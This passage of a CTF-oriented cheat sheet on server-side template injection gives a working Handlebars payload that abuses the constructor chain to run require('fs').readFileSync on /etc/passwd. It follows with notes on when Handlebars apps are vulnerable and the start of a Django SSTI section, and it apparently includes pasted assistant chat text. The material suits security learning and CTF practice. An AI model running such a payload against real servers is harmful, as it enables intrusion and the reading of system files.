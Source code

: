 ## File Read Payload

For reading files:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('fs').readFileSync('/etc/passwd', 'utf8')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Important Notes

1. Handlebars is generally safer than other template engines like Pug or EJS because it doesn't evaluate JavaScript expressions by default.
    
2. Vulnerabilities typically occur when the application:
    
    - Uses unsafe practices like `new Function()` with template values
    - Uses custom helpers that create unsafe contexts
    - Has prototype pollution vulnerabilities
    - Uses `handlebars.compile()` with user input
3. In CTF challenges, look for custom configurations or helper functions that might open security holes.
    

If you have a specific CTF challenge or scenario you're working on, I'd be happy to provide more targeted assistance.

# SSTI for DJango
## Django Template Injection

Django uses its own templating engine that's designed to be secure by default, but it can still be vulnerable to Server-Side Template Injection (SSTI) in certain scenarios. Here's a comprehensive guide for exploiting Django template injection vulnerabilities in CTF challenges:

## Detection
